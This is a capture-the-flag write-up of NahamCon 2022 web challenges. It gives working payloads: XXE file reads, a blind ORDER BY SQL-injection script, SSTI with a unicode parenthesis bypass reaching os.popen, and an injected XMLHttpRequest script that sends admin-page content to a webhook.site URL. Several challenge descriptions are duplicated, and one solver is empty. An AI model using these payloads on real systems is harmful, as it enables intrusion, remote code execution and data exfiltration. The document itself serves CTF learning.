

# NahamCon 2022 – Web Challenges

Note: Some of these challenges were done after the CTF and referencing of other people's solutions.

## Web Challenge: Personnel

### Description/Source

```python
#!/usr/bin/env python

from flask import Flask, Response, abort, request, render_template
import random
from string import *
import re

app = Flask(__name__)

flag = open("flag.txt").read()
users = open("users.txt").read()

users += flag


@app.route("/", methods=["GET", "POST"])
def index():
    if request.method == "GET":
        return render_template("lookup.html")
    if request.method == "POST":
        name = request.form["name"]
        setting = int(request.form["setting"])
        if name:
            if name[0].isupper():
                name = name[1:]

        results = re.findall(r"[A-Z][a-z]*?" + name + r"[a-z]*?\n", users, setting)
        results = [x.strip() for x in results if x or len(x) > 1]

        return render_template("lookup.html", passed_results=True, results=results)


if __name__ == "__main__":
    app.run()

```

We are given a search that uses regex to filter all users and our flag is appended to the end of users. However, note that any regex expression can be inserted into `re.findall`

### Solver

Insert into the regex statement and or operator `||`

```
xxxx||flag{[a-z0-9]*}
(xxxx) is to prevent the other users from showing up
```


## Web Challenge: EXtravagant

### Description/Source

We are given a website to upload XML and view. Use a standard XML File Inclusion technique

### Solver

```xml
<?xml version="1.0"?>
<!DOCTYPE root [<!ENTITY test SYSTEM 'file:///var/www/flag.txt'>]>
<root>&test;</root>
```

## Web Challenge: Jurassic Park

### Description/Source

We are given a website to upload XML and view. Use a standard XML File Inclusion technique

### Solver

```xml
<?xml version="1.0"?>
<!DOCTYPE root [<!ENTITY test SYSTEM 'file:///var/www/flag.txt'>]>
<root>&test;</root>
```

## Web Challenge: Flask Metal Alchemist

Note: Writeup heavily influenced by [this](https://ctftime.org/writeup/33458)

### Description/Source

```python
from flask import Flask, render_template, request, url_for, redirect
from models import Metal
from database import db_session, init_db
from seed import seed_db
from sqlalchemy import text

app = Flask(__name__)


@app.teardown_appcontext
def shutdown_session(exception=None):
    db_session.remove()


@app.route("/", methods=["GET", "POST"])
def index():
    if request.method == "POST":
        search = ""
        order = None
        if "search" in request.form:
            search = request.form["search"]
        if "order" in request.form:
            order = request.form["order"]
        if order is None:
            metals = Metal.query.filter(Metal.name.like("%{}%".format(search)))
        else:
            metals = Metal.query.filter(
                Metal.name.like("%{}%".format(search))
            ).order_by(text(order))
        return render_template("home.html", metals=metals)
    else:
        metals = Metal.query.all()
        return render_template("home.html", metals=metals)


if __name__ == "__main__":
    seed_db()
    app.run(debug=False)

```

The most important part of the source is the `app.py` where we can see that the sqlalchemy uses order by. Given the version of `sqlalchemy` given in the `requirements.txt`, it is vulnerable to SQL injection using the order by parameter.

```
click==8.1.2
Flask==2.1.1
importlib-metadata==4.11.3
itsdangerous==2.1.2
Jinja2==3.1.1
MarkupSafe==2.1.1
SQLAlchemy==1.2.17
Werkzeug==2.1.1
zipp==3.8.0
```

Thus a boolean based blind injection can be done on the ORDER BY parameter

### Solver

```python
import requests
import hashlib


url = "http://challenge.nahamcon.com:31547/"

d = {}
text_to_search = "mium"
data = {
    "search": text_to_search,
    "order": f"CASE WHEN 1=1 THEN atomic_number ELSE name END"
}
r = requests.post(url, data=data)

d[hashlib.md5(r.text.encode()).hexdigest()] = True

data = {
    "search": text_to_search,
    "order": f"CASE WHEN 1=2 THEN atomic_number ELSE symbol END"
}
r = requests.post(url, data=data)

d[hashlib.md5(r.text.encode()).hexdigest()] = False

chars = "flag{_bcdehijkmnopqrstuvwxyz}"

i = 1
flag = ""
while True:
    start_i = i
    for char in chars:
        condition = f"(SELECT substr(flag,{i},1) FROM flag) = '{char}'"
        data = {
            "search": text_to_search,
            "order": f"CASE WHEN {condition} THEN atomic_number ELSE symbol END"
        }
        r = requests.post(url, data=data)
        if(d[hashlib.md5(r.text.encode()).hexdigest()]):
            print("flag:", flag)
            flag += char
            i += 1
            break
    if i == start_i:
        break
```


## Web Challenge: DeafCon

### Description/Source

We are given a website where if we key in our name and email. A pdf invite will be generated based on that information.


### Solver

Experimenting with the inputs give a few errors that give restrictions

1. The name can only contain [a-zA-Z0-9_] and spaces
2. This email is not RFC5322-compliant
3. '(' and ')' are not allowed in emails. We accidentally allowed them on our regex to validate emails but are blocking them now

However it seems that its vulnerable to SSTI. Using email: `{{8*8}}@b.com` we can see that 64 is reflected in the output


More experimentation showed that the parantheses filter could be bypassed by unicode normalization. Links found [here](https://appcheck-ng.com/wp-content/uploads/unicode_normalization.html)

```
{{⁽⁾.__class__}}@b.com --> would reflect output
```

And then RCE can be achieved using this payload. Note that spaces are not allowed in the email, so it can be replaced with the field separator of `${IFS}`

```
{{cycler.__init__.__globals__.os.popen⁽'cat${IFS}flag.txt'⁾.read⁽⁾}}@b.com
```


## Web Challenge: Hacker Ts

Heavily referenced off [here](https://ghostccamm.com/writeups/nahamcon-2022)

### Description/Source

We are given a website where we can write text which will be written to a T-shirt. There is also an admin endpoint but can only be seen from localhost (SSRF hints)


### Solver

We can test for various payloads and one that worked was

```javascript
<script>let s = await fetch</script>
```

Note: It was necessary to use single quotes because double quotes would cause the server to crash


Trying to use a standard fetch request on the shirt with

```html
<script>
  let s = await fetch("http://challenge.nahamcon.com:30358/admin"); s = await s.text();
</script>
```

seemed to also crash the server


The javascript engine seems to be quite outdated, so this means that apis like `fetch` and features like arrow functions are unavailable. There are 2 methods to do this, one is to make the XHR and send it base64 encoded to your own endpoint like so

```html
<script>
  x = new XMLHttpRequest();
  x.onload = function () {
    y = new XMLHttpRequest();
    y.open(
      "GET",
      "https://webhook.site/746d0f7b-5499-4a0b-8aed-22a7fb8d324c/" +
        btoa(x.responseText)
    );
    y.send();
  };
  x.open("GET", "http://localhost:5000/admin");
  x.send();
</script>
```


Or if you know the format of the flag, you can just parse the response text with RegExp and print it on the t-shirt

```html
<script>
  regex = RegExp("flag{[a-z0-9]*}");
  x = new XMLHttpRequest();
  x.onload = function () {
    document.write(x.responseText.match(regex)[0]);
  };
  x.open("GET", "http://localhost:5000/admin");
  x.send();
</script>
```



## Web Challenge: Poller

### Description/Source

We are given a website to upload XML and view. Use a standard XML File Inclusion technique

### Solver

```

```
